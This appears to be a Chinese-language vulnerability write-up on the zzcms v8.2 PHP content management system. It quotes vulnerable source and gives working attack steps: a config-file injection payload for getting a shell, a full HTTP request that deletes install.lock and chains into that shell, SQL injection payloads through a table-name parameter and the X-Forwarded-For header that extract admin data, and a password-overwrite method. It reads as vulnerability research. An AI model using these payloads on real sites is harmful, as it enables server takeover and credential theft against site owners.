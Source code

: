 # zzcms v8.2 && zzcms xmv8.2
## source code
链接:https://pan.baidu.com/s/1PQGSBjWJhJiMaLdqoLTYpA  密码:kxgx
## source
1. 组合getshell http://www.freebuf.com/column/166525.html
2. SQL注入 http://www.freebuf.com/vuls/161888.html

## fingerprint
`http://url/image/zzcms-color.gif`

# analysis

### install 配置文件任意内容写入
install/index.php 91
```
case '5'://安装进度
		function dexit($msg) {
			echo '<script>alert("'.$msg.'");window.history.back();</script>';
			exit;
		}
		
		$conn=connect($db_host,$db_user,$db_pass,'',$db_port);
		if(!$conn) dexit('无法连接到数据库服务器，请检查配置');
		$db_name or dexit('请填写数据库名');
		if(!select_db($db_name)) {
			if(!query("CREATE DATABASE $db_name")) dexit('指定的数据库不存在\n\n系统尝试创建失败，请通过其他方式建立数据库');
		}
		
		//保存配置文件
		$fp="../inc/config.php";
		$f = fopen($fp,'r');
		$str = fread($f,filesize($fp));
		fclose($f);
		$str=str_replace("define('sqlhost','".sqlhost."')","define('sqlhost','$db_host')",$str) ;
		$str=str_replace("define('sqlport','".sqlport."')","define('sqlport','$db_port')",$str) ;
		$str=str_replace("define('sqldb','".sqldb."')","define('sqldb','$db_name')",$str) ;
		$str=str_replace("define('sqluser','".sqluser."')","define('sqluser','$db_user')",$str) ;
		$str=str_replace("define('sqlpwd','".sqlpwd."')","define('sqlpwd','$db_pass')",$str) ;
		$str=str_replace("define('siteurl','".siteurl."')","define('siteurl','$url')",$str) ;
		$str=str_replace("define('logourl','".logourl."')","define('logourl','$url/image/logo.png')",$str) ;
		$f=fopen($fp,"w+");//fopen()的其它开关请参看相关函数
		fputs($f,$str);//把替换后的内容写入文件
		fclose($f);
		//创建数据
		include 'step_'.$step.'.php';
		break;
```
写入位置`$url`,将闭合字符串，类似`');phpinfo();//`

### 任意文件删除
`grep -i -r 'unlink(' *` 查找文件删除函数，具体可以找到几个前台的点，`user/del.php`,`user/ppsave.php`,`user/ztconfig.php`,`user/zssave.php`
这里拿user/ztconfig.php做分析
user/ztconfig.php 68
```
if($oldbannerbg<>$bannerbg && $oldbannerbg<>"/image/nopic.gif" && $oldbannerbg<>"" ) {
	$f="../".$oldbannerbg;
	if(file_exists($f)){
	unlink($f);
	}
}
```
用burp生成数据包
```
POST /user/ztconfig.php HTTP/1.1
Host: 10.254.254.254
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Cookie: XDEBUG_SESSION=XDEBUG_ECLIPSE; bdshare_firstime=1522576407866; PHPSESSID=sg029uce7fh0o0f2s3jch4r575; UserName=admin; PassWord=0192023a7bbd73250516f069df18b500
Content-Type: application/x-www-form-urlencoded
Content-Length: 51

action=modify&oldimg=install/install.lock&img=123
```
删除了install.lock，利用上面的配置文件写入造成getshell(注意这里需要cookie有用户信息，也就是先登陆)

### SQL注入
由于系统对_GET、_POST、_COOKIE过了一边zc_check，所以只能尝试找数字型或者不用闭合单双引号的点
user/del.php 139
```
$sql="select id,editor from ".$tablename." where id ='$id'";
```
其中tablename可控，构造payload即可，其中zzcms_answer有同样的键
`zzcms_answer where if(1,sleep(5),1)+--+`

### 登陆处盲注(复现时发现的另一个漏洞，后来发现已经有前辈发现了)
造成漏洞的函数getip(), inc/function.php  100
```
function getip(){ 
    if (getenv("HTTP_CLIENT_IP") && strcasecmp(getenv("HTTP_CLIENT_IP"), "unknown"))
        $ip = getenv("HTTP_CLIENT_IP");
    else if (getenv("HTTP_X_FORWARDED_FOR") && strcasecmp(getenv("HTTP_X_FORWARDED_FOR"), "unknown"))
        $ip = getenv("HTTP_X_FORWARDED_FOR");
    else if (getenv("REMOTE_ADDR") && strcasecmp(getenv("REMOTE_ADDR"), "unknown"))
        $ip = getenv("REMOTE_ADDR");
    else if (isset($_SERVER['REMOTE_ADDR']) && $_SERVER['REMOTE_ADDR'] && strcasecmp($_SERVER['REMOTE_ADDR'], "unknown"))
        $ip = $_SERVER['REMOTE_ADDR'];
    else
        $ip = "unknown";
    return($ip);
} 
```
未对ip做检验，查找一下getip()的调用，发现user/logincheck.php 18
```
$ip=getip();
define('trytimes',5);//可尝试登录次数
define('jgsj',10*60);//间隔时间，秒
$sql="select * from zzcms_login_times where ip='$ip' and count>=".trytimes." and unix_timestamp()-unix_timestamp(sendtime)<".jgsj." ";
$rs = query($sql); 
$row= num_rows($rs);
```
直接带入SQL查询，造成SQL盲注。payload可以放在X-Forwarded-For处
如 `X-Forwarded-For: 127.0.0.4' and if((select substr(admin,1,1) from zzcms.zzcms_admin limit 1)='a',sleep(5),1) -- +`

#### 关于getip()的另一种利用方式
除了上面带入select查询，发现还有update语句，所以可以同样更新用户账户密码。
step 1 找到目标用户名，创建一个与目标用户相同的用户(虽然有检验，但是可以通过最后发送前的修改，导致相同用户名的创建)
step 2 X-Forwarded-For处带上payload，如 `127.0.0.1',password='xxxx`

# PoC
continue
